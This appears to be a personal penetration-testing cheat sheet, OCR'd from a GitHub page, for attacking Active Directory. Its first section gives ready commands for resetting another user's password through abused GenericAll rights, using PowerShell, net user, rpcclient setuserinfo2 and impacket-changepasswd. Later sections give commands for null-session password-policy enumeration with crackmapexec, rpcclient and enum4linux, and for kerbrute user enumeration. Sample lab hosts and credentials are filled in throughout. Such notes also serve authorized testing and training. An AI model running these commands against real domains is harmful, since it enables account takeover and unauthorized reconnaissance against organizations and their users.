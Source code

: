 

### CHANGING PWD OF ANOTHER USING HAVING GENERICALL
https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/
USING ps
```
Set-ADAccountPassword -Identity <username> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<newpassword>" -Force)
```
FOR LOCAL USER
```
Set-LocalUser -Name "<username>" -Password (ConvertTo-SecureString -AsPlainText "<newpassword>" -Force)
```
IN CMD
```
net user <username> <newpassword>
```
```
rpcclient -U "attackeruser" target.domain rpcclient $> setuserinfo2 targetuser 23 "NewPassw0rd!"
```
```
rpcclient -U ignite.local/raj 192.168.1.48
```

```
setuserinfo aarti 23 Password@987
```

using impacket
```
impacket-changepasswd ignite.local/aarti@192.168.1.48 -newpass Password@1234 -altuser ignite.local/raj -altpass Password@1 -reset
```




2. Try mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08 version.




### Enumerating password policies

```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

```
rpcclient -U "" -N 172.16.5.5
```
and then
```
rpcclient $> querydominfo
```
```
rpcclient $> getdompwinfo
```

```
enum4linux -P 172.16.5.5
```




### USER ENUM

```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
